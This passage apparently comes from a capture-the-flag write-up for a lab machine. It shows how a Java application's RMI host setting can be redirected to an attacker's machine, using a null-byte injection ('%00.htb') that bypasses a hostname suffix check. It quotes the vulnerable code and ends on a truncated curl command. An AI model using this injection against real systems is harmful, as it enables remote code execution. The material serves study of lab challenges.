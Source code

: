 An important configuration setting that warrants attention is the RMI (Remote Method Invocation) host. RMI is a mechanism in Java that facilitates communication between Java applications, even when running on separate machines. It enables one Java program to invoke methods in another as if they were part of the same program, despite being located on different machines. In the context of this application, certain methods are loaded from `registry.webhosting.htb`. With the ability to update the configuration it allows us to manipulate the rmi host and redirect the machine to grab functions from our own machine. This newfound control over the RMI host presents an avenue for code execution!

There is however a check in the code to make sure the host ends in `.htb`, but a null byte `%00` will bypass this.
```java
 public static FileService get() {
    try {
      String rmiHost = (String)Settings.get(String.class, "rmi.host", null);
      if (!rmiHost.contains(".htb"))
        rmiHost = "registry.webhosting.htb"; 
      System.setProperty("java.rmi.server.hostname", rmiHost);
      System.setProperty("com.sun.management.jmxremote.rmi.port", "9002");
      log.info(String.format("Connecting to %s:%d", new Object[] { rmiHost, Settings.get(Integer.class, "rmi.port", Integer.valueOf(9999)) }));
      Registry registry = LocateRegistry.getRegistry(rmiHost, ((Integer)Settings.get(Integer.class, "rmi.port", Integer.valueOf(9999))).intValue());
      return (FileService)registry.lookup("FileService");
    } catch (Exception e) {
      e.printStackTrace();
      throw new RuntimeException(e);
    } 
  }
```

Using our ability to update settings we change the RMI host to ourselves by adding `&rmi.host=10.10.14.4%00.htb` to the reconfigure POST request. Once its sent and clicking around the application we get a connection back, confirming that we updated the setting.
![registrytwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/registrytwo/18.png)
```
curl -i -s -k -X $'POST' \
```